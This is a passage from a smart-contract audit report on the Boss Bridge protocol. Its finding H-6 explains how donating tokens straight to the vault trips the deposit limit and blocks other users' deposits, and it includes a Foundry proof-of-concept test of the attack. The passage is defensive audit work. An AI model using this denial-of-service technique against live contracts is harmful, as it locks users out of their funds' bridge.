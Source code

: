 **Impact:** Protocol will not work on zkSync

**Recommended Mitigation:** Follow the instructions that are stated in zksync docs [here](https://era.zksync.io/docs/reference/architecture/differences-with-ethereum.html#evm-instructions)

### [H-6] `L1BossBridge::depositTokensToL2`'s `DEPOSIT_LIMIT` check allows contract to be DoS'd

**Description:** Malicious actor can DOS attack depositTokensToL2

The function depositTokensToL2 has a deposit limit that limits the amount of funds that a user can deposit into the bridges:

```javascript
if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
```

https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/1b33f63aef5b6b06acd99d49da65e1c71b40a4f7/src/L1BossBridge.sol#L71

The problem is that it uses the contract balance to track this invariant, opening the door for a malicious actor to make a donation to the vault contract to ensure that the deposit limit is reached causing a potential victim's harmless deposit to unexpectedly revert.

**Impact:** Users will not be able to deposit token to the bridge 

**Proof of Concept:** 

```javascript
function testUserCannotDepositBeyondLimit() public {

        vm.startPrank(user2);

        uint DOSamount = 20;
        deal(address(token), user2, DOSamount);
        token.approve(address(token), 20);

        token.transfer(address(vault), 20);

        vm.stopPrank();


        vm.startPrank(user);
        uint256 amount = tokenBridge.DEPOSIT_LIMIT() - 9;
        deal(address(token), user, amount);
        token.approve(address(tokenBridge), amount);

        vm.expectRevert(L1BossBridge.L1BossBridge__DepositLimitReached.selector);
        tokenBridge.depositTokensToL2(user, userInL2, amount);
        vm.stopPrank();

       
    }
```

